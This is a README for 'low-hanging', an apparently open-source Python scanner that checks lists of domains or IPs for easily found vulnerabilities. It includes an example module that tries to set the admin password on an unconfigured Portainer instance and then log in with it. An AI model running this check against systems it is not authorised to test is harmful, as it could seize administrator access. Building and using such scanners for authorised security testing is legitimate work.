 # low-hanging
`low-hanging` aims to be lightweight and extensible horizontal vulnerability scanner. 

Just pass list of domains/IPs and `low-hanging` will check for easily detectable vulnerabilities with low false positive rate.

Made to be easily extensible. Adding more checks is just few lines of code with features like JS rendering in your possession thanks to `requests-html`.

Inspired by https://github.com/tomnomnom/meg, but made to be easily pluggable into your fully automated workflow.

## Usage
```bash
$ docker run s14ve/low-hanging --help
Usage: low_hanging.py [OPTIONS]

Options:
  -i, --input TEXT       Path to file with list of domains/IPs separated by
                         newline.
  -t, --threads INTEGER  Number of threads with which you want to run.
  -o, --output TEXT      Output files to file in json format.
  --help                 Show this message and exit.
``` 

## Adding Modules
Adding modules is quite simple, yet it requires some manual work with imports. This will get improved in the future.
For now, bear with me and check [example commit](https://github.com/janmasarik/low-hanging/commit/e2ebe80a3bb8f7c7e02c73c48e8caaeb847f18c9).

## Example Module
```python
from urllib.parse import urljoin
from low_hanging.base_worker import BaseWorker

class PortainerAdmin(BaseWorker):
    name = "portainer_admin_reset"
    references = ["https://github.com/portainer/portainer/issues/493"]
    def run(self):
        r = self.session.post(
            urljoin(self.domain, "/api/users/admin/init"),
            json={"username": "admin", "password":"definitely_valid"}
        )

        if r.status_code in (404, 409):
            r = self.session.post(
                urljoin(self.domain, "/api/auth"),
                json={"username": "admin", "password":"definitely_valid"}
            )
            if r.status_code < 400:
                return r.url  # If successful, return the URL for which the exploit is valid
```
